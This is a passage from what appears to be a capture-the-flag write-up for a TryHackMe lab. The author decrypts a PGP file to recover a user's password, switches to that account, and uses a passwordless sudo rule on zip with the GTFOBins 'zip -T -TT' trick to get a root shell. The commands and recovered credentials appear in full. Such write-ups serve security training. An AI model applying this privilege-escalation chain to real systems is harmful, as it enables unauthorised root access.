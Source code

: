 indeed..now we decrypt and output to a txt file

it tell us the ELG encrption method is unknown but anyway we cracked it

```
$gpg --output ./decrypted_credentials.txt --decrypt ./credential.pgp
gpg: Attention : l'algorithme de chiffrement CAST5 est introuvable
dans les préférences du destinataire
gpg: chiffré avec une clef ELG de 1024 bits, identifiant 61E104A66184FBCC, créée le 2020-03-11
« tryhackme <stuxnet@tryhackme.com> »
```

we get merlin credentials

`merlin : asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

Dafuk is that password? that boy merlin got issues

lateral movement to merlin and sudo rights

```
skyfuck@ubuntu:~$ su merlin
Password:
merlin@ubuntu:/home/skyfuck$

merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
(root : root) NOPASSWD: /usr/bin/zip
```

Lets ask gtfobins how to abuse this for shell spawn`

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

```
merlin@ubuntu:~$ zip
Copyright (c) 1990-2008 Info-ZIP - Type 'zip "-L"' for software license.
Zip 3.0 (July 5th 2008). Usage:
zip [-options] [-b path] [-t mmddyyyy] [-n suffixes] [zipfile list] [-xi list]
The default action is to add or replace zipfile entries from list, which
can include the special name - to compress standard input.
If zipfile and list are omitted, zip compresses stdin to stdout.
-f freshen: only changed files -u update: only changed or new files
-d delete entries in zipfile -m move into zipfile (delete OS files)
-r recurse into directories -j junk (don't record) directory names
-0 store only -l convert LF to CR LF (-ll CR LF to LF)
-1 compress faster -9 compress better
-q quiet operation -v verbose operation/print version info
-c add one-line comments -z add zipfile comment
-@ read names from stdin -o make zipfile as old as latest entry
-x exclude the following names -i include only the following names
-F fix zipfile (-FF try harder) -D do not add directory entries
-A adjust self-extracting exe -J junk zipfile prefix (unzipsfx)
-T test zipfile integrity -X eXclude eXtra file attributes
-y store symbolic links as the link instead of the referenced file
-e encrypt -n don't compress these suffixes
-h2 show more help
```
